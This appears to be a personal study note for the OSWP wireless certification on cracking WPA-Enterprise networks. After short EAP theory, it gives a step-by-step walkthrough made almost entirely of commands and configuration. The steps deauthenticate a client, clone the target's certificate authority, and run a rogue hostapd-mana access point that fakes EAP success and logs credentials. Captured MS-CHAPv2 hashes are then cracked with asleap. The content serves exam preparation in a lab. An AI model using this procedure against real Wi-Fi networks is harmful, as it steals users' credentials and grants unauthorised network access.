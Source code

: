```yaml
---
{"dg-publish":true,"permalink":"/oswp/7-enterprise-cracking/"}
---
```


-------------
### Theory
- Authentication is done using a RADIUS server
- EAP frames are relayed from AP to RADIUS, if successful a PMK is used in a 4-way handshake
- Authentication methods:
	- EAP-TLS
		- One of the most secure
		- Certificates on both server and client side
	- EAP-TTLS
		- Does not necessarily need client certificates
		- Creates a tunnel to exchange credentials using different inner/phase2 methods
			- Challenge-Handshake Authentication Protocol (CHAP)
			- Authentication Protocol (PAP)
			- Microsoft CHAP (MS-CHAP)
			- MS-CHAPv2
	- PEAP
		- TLS tunnel with most commonly MS-CHAPv2
- AUTH: MGT means WPA Enterprise

### Walkthrough:
1. Generate/validate certificate:
```
openssl x509 -in <name.crt/pem> -noout -enddate
```
2. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
3. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
4. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
5. Open capture in Wireshark and filter for:
```
tls.handshake.certificate
```
6. _Extensible Authentication Protocol_ > _Transport Layer Security_
7. Find the certificates and right-click for "Export Packet Bytes"
8. Convert the .der into a .crt:
```
openssl x509 -inform der -in <file.der> -outform pem -out <file.crt>
```
9. Edit [certificate_authority] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/ca.cnf
```
Example:
```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```
10. Edit [server] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/server.cnf
```
Example:
```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```
11. Delete the diffie-hellman file and any previous certs and make the cert:
```
make destroycerts
sudo rm /etc/freeradius/3.0/certs/dh
make
```
12. Generate the mana.conf file and set SSID:
```
# SSID of the AP
ssid=<ssid-name>

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
13. Create the EAP user file referenced in the conf-file:
```
sudo nano /etc/hostapd-mana/mana.eap_user
```
Paste:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
14. Start hostapd-mana with the conf-file:
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
15. Catch credentials in: /tmp/hostapd.credout
16. Crack with asleap:
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```
